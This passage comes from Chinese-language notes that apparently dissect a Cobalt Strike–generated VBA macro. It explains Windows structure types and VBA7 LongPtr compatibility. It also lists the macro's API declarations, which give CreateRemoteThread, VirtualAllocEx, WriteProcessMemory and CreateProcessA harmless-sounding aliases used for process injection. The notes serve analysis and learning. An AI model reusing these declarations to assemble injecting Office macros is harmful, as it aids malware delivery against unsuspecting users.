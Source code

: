 ```vb
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

```

定义了进程和启动信息，用于在创建新进程和线程时传递信息。

- `Long`: 32位的有符号整数。它的取值范围是从 `-2,147,483,648` 到 `2,147,483,647`

  - 为了兼容64位系统，VBA7引入了`LongPtr`类型，它可以在32位系统上表示32位整数，在64位系统上表示64位整数。

    上述 CS 生成的 VBA 宏中的如下部分就使用了此种类型

    ```vb
    #If VBA7 Then
        Private Declare PtrSafe Function CreateStuff ...
        Dim rwxpage As LongPtr, res As LongPtr
    #Else
        Private Declare Function CreateStuff ...
        Dim rwxpage As Long, res As Long
    #End If
    ```

---

#### 函数声明

> 仅作参考

```vb
#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
```